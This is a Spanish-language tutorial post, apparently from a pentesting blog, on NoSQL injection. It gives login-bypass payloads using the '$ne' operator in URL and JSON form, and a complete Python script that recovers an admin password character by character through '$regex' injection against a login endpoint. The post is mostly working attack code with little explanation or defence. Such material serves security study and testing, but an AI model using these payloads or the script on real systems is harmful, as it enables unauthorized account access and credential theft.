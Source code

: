 ```yaml
---
title: "NoSQL Inyection"
author: Tuch0
date: 2023-09-17
categories: [Vectores-de-Ataque]
tags: [NoSQL]
image:
    path: ../../assets/Miniaturas/VectoresDeAtaque/nosql.png
    width: 800
    height: 500
---
```


#### ¿Qué es?

> Es una amplia clase de sistemas de gestión de bases de datos que difieren del model clásico de SGBDR en aspectos importantes , siendo el más destacado que no usan SQL como lenguaje principal de consultas
{: .prompt-info }

## Ataques básicos

```bash
# Jugamos con el validador "Not Equal"
user[$ne]=admin&password[$ne]=caca
```

```json
// Jugamos trámitando la data en JSON
{
	"user":"admin",
	"password":{
	"$ne":"caca"}
}
```

### Script para dumpear contraseñas con regex

```python
#!/usr/bin/python3

# Importamos las liberias
from pwn import * 
import requests, time, sys, signal, string

def def_handler(sig, frame):
    print("\n\n[!] Saliendo... \n")
    sys.exit(1)


# Ctrl+C
signal.signal(signal.SIGINT, def_handler)


# Variables generales
login_url = "http://localhost:4000/user/login"
characters = string.ascii_lowercase + string.ascii_uppercase + string.digits


# Core Function
def makeNoSQLI():
    
    # Variables locales
    password = ""

    # Definimos las barras de progreso
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")

    # Esperamos un tiempo
    time.sleep(2)

    # Definimos segunda barra de progreso
    p2 = log.progress("Password")


    # Definimos la longitud de la contraseña -> ({"username":"admin","password":{"$regex";".{<número>}"}})
    for position in range(1, 24):
        
        # Iteramos por cada caracter
        for character in characters:
            
            # Creamos la data
            post_data = '{"username":"admin","password":{"$regex":"^%s%s"}}' % (password,character)
            
            # Actualizamos primera barra de progreso
            p1.status(post_data)

            # Indicamos el header
            headers = {'Content-Type':'application/json'}
            r = requests.post(login_url, headers=headers, data=post_data)

            # Validamos si el caracter es correcto
            if "Logged in as user" in r.text:
                # Añadimos caracter correcto a la contraseña
                password += character
                
                # Actualizamos la barra de progreso
                p2.status(password)
                #break

if __name__ == '__main__':
    makeNoSQLI()
```